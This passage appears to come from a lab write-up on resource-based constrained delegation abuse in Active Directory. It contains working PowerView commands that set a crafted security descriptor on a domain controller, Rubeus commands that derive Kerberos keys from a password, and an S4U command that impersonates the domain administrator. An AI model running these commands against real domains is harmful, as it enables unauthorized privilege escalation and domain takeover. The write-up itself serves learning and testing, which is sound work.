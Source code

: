 ![059d77ffceb1ac4cebd2fb5a4f815b1f.png](/_resources/059d77ffceb1ac4cebd2fb5a4f815b1f.png)

If we don't want to use the AD module we resort to [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1), where we manually build an ACE using our machine account's SID and store it into the attribute:
```powershell
# obtain SID
Get-DomainComputer baud
# build security descriptor
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3543871144-676301019-4006120668-1166)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
# modify the target computer attribute
Get-DomainComputer its-dc1 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

We can now exploit the delegation with the best kerberos exploitcation out there, [Rubeus](https://github.com/GhostPack/Rubeus): in order to do the S4U attack we requires the machine account user's AES256 (`/aes256`) or RC4 (`/rc4`) key, because these make up the long term secret keys used to encrypt kerberos tickets (plus AES128 and DES). If we have a TGT for our machine account we can use that instead.

If RC4 is not disabled we'll see that it coincides with the account's NT hash (this will be useful in the SPN-less attack!). To calculate these we use the `hash` command:
```text
# get SHA256:
Rubeus.exe hash /password:Baudy16!1 /user:baud$ /domain:its-piemonte.local
# get only RC4:
Rubeus.exe hash /password:Baudy16!1
```

The RC4 key is simply an NT hash so we only need our clear text password to calculate it, while the AES keys also require our user's name and domain, because these are used as salt for the hashing algorithm.

![ee6b4a18948568800ef798ab7f9da552.png](/_resources/ee6b4a18948568800ef798ab7f9da552.png)

Armed with a kerberos key we can proceed with the S4U attack specifying an SPN pointing to our target (`/msdsspn`) and a user to impersonate, here we also include the `/ptt` flag to have Rubeus load the TGS into our cache so we can pass the ticket to our target from our attacking host:
```text
Rubeus.exe s4u /user:baud$ /rc4:8F8172E42D04C1934FECC9E8404E2657 /domain:its-piemonte.local /msdsspn:cifs/its-dc1 /impersonateuser:administrator /ptt
```

When requesting a TGS for the host with an SPN like cifs/fqdn I would still get access denied, despite Rubeus successfully generating a ticket for the domain admin account:

![177a77248344bf65726f69436e9709dc.png](/_resources/177a77248344bf65726f69436e9709dc.png)

After a lot of trial and error I found this [ired.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) article that presented the same issue, saying that in order to fix it the SPN should simply be cifs/host instead of cifs/fqdn, so cifs/its-dc1 in the lab example:
